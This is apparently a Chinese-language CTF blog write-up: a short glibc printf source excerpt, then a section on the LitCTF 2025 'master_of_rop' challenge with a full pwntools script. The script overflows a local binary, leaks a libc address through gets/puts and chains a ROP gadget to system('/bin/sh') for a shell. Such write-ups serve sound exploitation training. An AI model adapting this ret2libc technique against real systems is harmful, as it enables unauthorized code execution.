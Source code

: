 ```c
	  return -1;							      \
	}								      \
    } while (0)
```

所有这一切的主要结论是 `ARGCHECK` 会迫使 `printf` 在 format == NULL 的情况下提前返回，这意味着它不会 `SEGFAULT` 。并且由于 `__vfprintf_internal` 是以 `stdout` 作为第一个参数被调用的，它被保留直到返回



## LitCTF 2025 master_of_rop
这题本地先 patch 了 2.35 版本的 libc，刚开始没仔细看版本，把 2.35 跟 2.37 往后的弄混了，还疑惑说为啥要两次 gets，原来网上搜到的居然是把 libc patch 成 2.37 往上的版本了...（题目 WP 本来是 2.37 之前的版本...）

```python
#!/usr/bin/env python3

from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'

elf=ELF('./rop')
libc=ELF('.//glibc/2.35-0ubuntu3.9_amd64/libc.so.6')

link=process("./rop")
# gets=0x00000000004011D4
gets=elf.plt['gets']
# puts=0x00000000004011C3
puts=elf.plt['puts']

gdb.attach(link,'b *0x00000000004011DE')
pause()

bss=0x0000000000404040+0x500

payload=b'a'*0x28+p64(gets)+p64(puts)+p64(0x00000000004011AD)
link.sendline(payload)

link.sendline(b'a'*0x4+b'\x00'*0x3)
tls_addr=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
success('tls_addr: ' + hex(tls_addr))
libc_base= tls_addr + 0x28c0
success('libc_base: ' + hex(libc_base))

system=libc_base + libc.sym['system']
binsh=libc_base + next(libc.search(b'/bin/sh\x00'))
rdi=libc_base + 0x000000000002a3e5
link.recvuntil("Welcome to LitCTF2025!\n")
payload= b'a'*0x28+p64(rdi)+p64(binsh)+p64(system)
link.sendline(payload)

link.interactive()
```

